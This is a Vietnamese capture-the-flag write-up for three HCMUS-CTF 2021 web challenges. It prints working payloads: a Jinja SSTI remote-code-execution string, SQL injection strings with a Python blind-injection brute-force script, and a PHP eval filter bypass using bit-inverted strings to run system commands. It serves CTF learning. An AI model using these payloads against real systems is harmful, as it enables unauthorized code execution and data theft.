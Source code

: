 # WRITE-UP-HCMUS-CTF-2021
## 1. Nothingness
+ Nhập thử bậy bạ 1 số đường dẫn lên thanh url thì ta thấy trang web in ra dòng trạng thái vô cùng đáng ghét:
> Sorry /index is under construction. Please try again later
+ Chúng in ra đường dẫn mà ta vừa nhập vào -> nghi ngờ XSS, SSTI
+ Ban đầu mình nghi ngờ là XSS nhưng lại không biết lấy gì trong trang web này. May mắn mình được một người bạn giúp đỡ gợi ý cho mình là SSTI.
+ Thử nhập <pre><code>{{7*7}}</code></pre> thì quả đúng là nó in ra 49
+ Tìm cách điều khiển nó thoi. Mình tìm được 1 payload để rce nó: <pre><code>{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}</code></pre>
+ ls ra 1 thư mục nữa thì thấy có file 'flag_HKOOS2lrdD'
+ Submit flag thôi: HCMUS-CTF{404_teMpl4t3_1njEctIon}

##2. EasyLogin
+ Đọc đề bài và vào trang web thì 99.99% là SQLi rồi. Thử đăng nhập vào thì ta nhận được
> Nothing special here. Maybe an admin account will work?
+ Tìm cách đăng nhập admin. Thử <pre><code>admin' or 1=1--</code></pre> Thì ta nhận được được Nothing special
+ Order by thì biết được là SQLite3 và bảng này gồm 2 cột mình 
+ Thử union select 'admin', 2 Thì trang web trả về một tấm hình khá ức chế và 1 câu:
> Well done login as admin, but the flag is in another castle
+ Thế là mình bế tắt 1 thời gian khá dài cho đến khi để ý trong hình có 1 dòng: 'Doing the same thing over and over and expecting a different result'. Dịch đại khái là làm thật nhiều lần và nhận được kết quả khác nhau -> Bruteforce. Mình thử <pre><code>admin' or 1=2--</code></pre> thì nó vẫn ra tấm hình ban nãy -> Nếu đúng thì 'Nothing special' sai thì 'Well done'. Mình và 1 vài người bạn của mình viết 1 đoạn code để bruteforce dựa trên ý tưởng đó để bruteforce tên bảng trước
<pre><code>
tbl_name = 'CREATE TABLE flagtablewithrandomname'
tbl = 'users, flagtablewithrandomname1'
sql = 'CREATE TABLE user(username, passw'
sql2 = ''
flag = ''
for i in range(1,50):
    for j in range(32,127):
        print(f"i\t\t{i}\t\t{j}",end='\r')
        resp = requests.post(url, data={
            "username": f"admin' or (select substr(flag,{i},1) FROM flagtablewithrandomname)=char({j})--",
            "passwd": "guest"
        })
        # print(resp.text)
        if "Nothing" in resp.text:
            flag += chr(j)
            print(f"tbl_name = {flag}")
            break 
</code></pre>
May mắn là tìm ra ngay flag lun:
+ ![image](https://user-images.githubusercontent.com/58381595/119288538-eccbb980-bc72-11eb-8b1f-e5d5e9401237.png)

# 3. SimpleCalculator
+ Nghe tên bài và vào xem thì khá quen -> chắc là dùng PHP eval() để thực hiện lệnh
+ Nhập thử chữ thì -> 'Mày không thoát được đâu con trai to be counted' (Khá cay :( ) và hint:
> Alphabetic character and quote is not allowed here
+ Mình nghĩ ngay tới WAF bypass. Nhưng dù có search google thế nào cũm bị giới hạn kí tự và chặn mất quote
+ Hơn 1 ngày suy nghĩ thì mình nhận được 1 hint là '~'. Là gì? Search google một hồi thì biết được đó là đảo bit trong php
+ ![image](https://user-images.githubusercontent.com/58381595/119289646-2a314680-bc75-11eb-9e46-b204ac314818.png)
+ Vậy nếu ta đảo ngược lại lần nữa ko phải là sẽ về chuỗi cũ sao. Thử đảo phpinfo thành ' %8F%97%8F%96%91%99%90 ' rồi gửi ' (~%8F%97%8F%96%91%99%90)() ' Thì quả thật lệnh phpinfo() đã được thực hiện
+ system('ls -l') xem có gì nào : (~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D2%93)
> Warning: Use of undefined constant ���ғ - assumed '���ғ' (this will throw an Error in a future version of PHP) in /var/www/html/index.php(21) : eval()'d code on line 1
total 4 -rwxrw-r--. 1 www-data root 856 May 18 11:52 index.php drwxr-xr-x. 1 www-data root 23 May 18 11:52 static drwxr-xr-x. 1 www-data root 23 May 18 11:52 static
+ Ra ngoài gốc lun xem có gì
> Warning: Use of undefined constant ���ғ�� - assumed '���ғ��' (this will throw an Error in a future version of PHP) in /var/www/html/index.php(21) : eval()'d code on line 1
total 4 drwxr-xr-x. 1 root root 28 May 12 12:48 bin drwxr-xr-x. 2 root root 6 Mar 19 23:44 boot drwxr-xr-x. 5 root root 360 May 23 13:13 dev drwxr-xr-x. 1 root root 66 May 23 13:13 etc -rwxrw-r--. 1 root root 25 May 18 11:52 fl4ggggH3reeeeeeeeeee drwxr-xr-x. 2 root root 6 Mar 19 23:44 home drwxr-xr-x. 1 root root 21 May 12 12:48 lib drwxr-xr-x. 2 root root 34 May 11 00:00 lib64 drwxr-xr-x. 2 root root 6 May 11 00:00 media drwxr-xr-x. 2 root root 6 May 11 00:00 mnt drwxr-xr-x. 2 root root 6 May 11 00:00 opt dr-xr-xr-x. 580 root root 0 May 23 13:13 proc drwx------. 1 root root 6 May 12 13:41 root drwxr-xr-x. 1 root root 36 May 23 13:13 run drwxr-xr-x. 1 root root 20 May 12 12:48 sbin drwxr-xr-x. 2 root root 6 May 11 00:00 srv dr-xr-xr-x. 13 root root 0 May 11 11:41 sys drwxrwxrwt. 1 root root 6 May 12 13:41 tmp drwxr-xr-x. 1 root root 19 May 11 00:00 usr drwxr-xr-x. 1 root root 17 May 12 12:43 var drwxr-xr-x. 1 root root 17 May 12 12:43 var
+ cat flag thui: system('nl /*') -> HCMUS-CTF{d4ngErous_eVal}
